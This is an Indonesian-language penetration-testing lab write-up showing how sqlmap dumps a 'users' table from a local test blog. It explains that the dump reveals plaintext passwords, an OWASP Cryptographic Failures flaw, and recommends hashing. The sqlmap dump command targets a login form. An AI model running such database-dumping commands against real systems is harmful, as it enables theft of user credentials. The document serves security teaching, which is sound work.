 
### Mengambil Data dari Tabel `users` di Database `blog_db`
Setelah database ditemukan, kita bisa mengambil data dari tabel tertentu. Gunakan perintah berikut untuk mengambil data dari tabel `users` di database `blog_db`:

```bash
sqlmap -u "http://192.168.1.5/users/login.php" --data="username=admin&password=password" -D blog_db -T users --dump
```

#### Penjelasan Parameter
- `-D blog_db`: Menentukan nama database (`blog_db`) yang ingin diakses.
- `-T users`: Menentukan nama tabel (`users`) yang ingin diambil datanya.
- `--dump`: Menginstruksikan `sqlmap` untuk menampilkan seluruh data dari tabel yang ditargetkan.

#### Contoh Output
Output dari perintah ini mungkin menampilkan data seperti berikut:

```plaintext
+----+----------+----------+
| id | username | password |
+----+----------+----------+
| 1  | admin    | admin123 |
| 2  | user     | userpass |
+----+----------+----------+
```

![Password tidak terenkripsi ](Image/cryptographi.png)

Pada hasil di atas, terlihat bahwa kolom `password` menyimpan password dalam bentuk teks biasa (*plain text*), bukan dalam bentuk yang terenkripsi atau di-hash. Ini adalah kelemahan serius yang masuk dalam kategori **Cryptographic Failures**.

---

## Analisis Kelemahan: Cryptographic Failures
### Penjelasan
Menyimpan password dalam bentuk teks biasa merupakan contoh *Cryptographic Failures*, di mana data sensitif seperti password tidak dilindungi dengan metode kriptografi yang tepat. Kelemahan ini dapat menyebabkan risiko besar bagi keamanan data pengguna.

### Dampak
1. **Akses Tidak Sah**: Jika terjadi pelanggaran data, penyerang bisa langsung melihat dan menggunakan password.
2. **Kegagalan Kepatuhan**: Banyak standar keamanan (misalnya, GDPR, HIPAA, PCI-DSS) mengharuskan data sensitif dienkripsi atau di-hash.
3. **Penyalahgunaan Kredensial**: Jika pengguna memakai ulang password di sistem lain, hal ini bisa mengakibatkan serangan yang meluas.

### Rekomendasi
Untuk mencegah kelemahan ini:
- **Hash Password dengan Algoritma yang Aman**: Gunakan hashing dengan algoritma yang kuat seperti `bcrypt`, `argon2`, atau `scrypt`.
- **Implementasikan Salt dan Pepper**: Tambahkan salt (nilai acak) pada setiap password sebelum hashing untuk meningkatkan keamanan dan mencegah serangan *rainbow table*.
- **Jangan Simpan Password dalam Teks Biasa**: Hindari menyimpan data sensitif dalam bentuk teks yang dapat dibaca langsung.

---

## Output yang Diharapkan dengan Penanganan yang Benar
Jika password disimpan dengan hashing yang benar, hasil dump seharusnya menunjukkan string acak yang terenkripsi, misalnya:

```plaintext
+----+----------+-------------------------------------------+
| id | username | password                                  |
+----+----------+-------------------------------------------+
| 1  | admin    | $2y$12$ePjDf5Kjd91ahZn/rF2ZLO3MC5E1.Ln.bD |
| 2  | user     | $2y$12$HtXmX47SDh2PAphH71HX93r/Kz6Re9kjgq |
+----+----------+-------------------------------------------+
```

---

## Referensi
- [SQLMap Documentation](https://sqlmap.org/)
- [OWASP Cryptographic Failures](https://owasp.org/Top10/A03_2021-Cryptographic_Failures/)

---

> **Catatan Penting**: Pastikan Anda memiliki izin untuk melakukan pengujian ini. Semua pengujian dan eksplorasi dalam dokumen ini hanya untuk tujuan pembelajaran di lingkungan yang diizinkan.
```
